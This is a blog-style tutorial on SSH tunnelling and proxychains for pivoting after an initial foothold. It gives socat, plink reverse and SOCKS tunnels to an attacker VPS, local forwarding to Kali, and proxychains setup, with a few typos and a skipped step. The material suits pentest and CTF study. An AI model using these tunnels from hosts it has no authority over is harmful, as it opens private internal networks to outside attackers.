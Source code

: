 ```yaml
---
layout: single
title:  "Understanding SSH Tunnelling and Proxychains"
---
```


Having a good knowledge on SSH tunnelling is an important tool in the arsenal for pentesting engagements and for playing networked Capture The Flag (CTF) events. 

# Problem Statement
We have gained an initial foothold on one of the internal system of an organization. Now, we want to run `nmap` scans on the internal networks to pivot laterally. The organization is also running an internally hosted website which is not accessible from outside. How do we expose the internal ports/traffic to the outside attacker machine so that we can run our tools and gain access to resources which are not exposed to the outside world?

# Cyber Range Setup
The setup of the cyber range is given in figure below:

![Deployment Architecture of Application](../assets/images/2021-06-07-ssh-tunnel-fig-1.png){: .align-center }

# Actions at Victim Machine
## Step 1:
As we already have an initial foothold on the `victim` machine, we will start the `socate.exe`. This program will forward the traffic to its local port:
```
socate.exe TCP-LISTEN:8080,fork,reuseaddr TCP:<target-server-ip>:443
```
Once the traffic has been forwarded to a specific port, in our case `8080`, we can verify the same through `netstat` command:
```
# Now check if the port has been forwarded
netstat -ano // check connection
```
## Step 3:
We will redirect the traffic of the victim PC to the Virtual Private Server (VPS) through SSH tunnel, using `plink.exe` for windows.
```
# Connect with VPS
plink.exe -l <username> -pw <password> -R 8080:127.0.0.1:8080 <vps ip>
```

# Actions at VPS Machine
```
# To check with curl
/etc/hosts
127.0.0.1 <domain-name>
```
# Forward Traffic to Kali Machine from VPS
```
# On Kali Machine
ssh -g -L 8080:localhost:8080 -f -N <username>@<vps ip> // this use when want to open localhost
```
# Now open the browser and enter
```
http://<domain-name>:8080
```

# Configure SOCKS5 proxy
## Actions at victim machine
```
plink.exe -l <username> -pw <password> -D 8080:127.0.0.1:8080 <vps ip>
```
## Actions at VPS
### Install proxychains
```
$ yum install proxychains
$ nano /etc/proxychain.conf
socks5 <vps-public-ip> 8080
```
## Check on terminal
```
$ proxychains curl www.myweb.com
```
## On Kali Machine
### Do settings in the browser, if we want to open websites in browser

### In case you want to use terminal for traffic and not browser, perform following steps
```
$ yum install proxychains

# nano /etc/proxychain.conf
socks5 <vps-public-ip> 8080
```
## Check on terminal
```
$ proxychains curl www.myweb.com
```

#### Reference
- https://pswalia2u.medium.com/ssh-tunneling-port-forwarding-pivoting-socks-proxy-85fb7129912d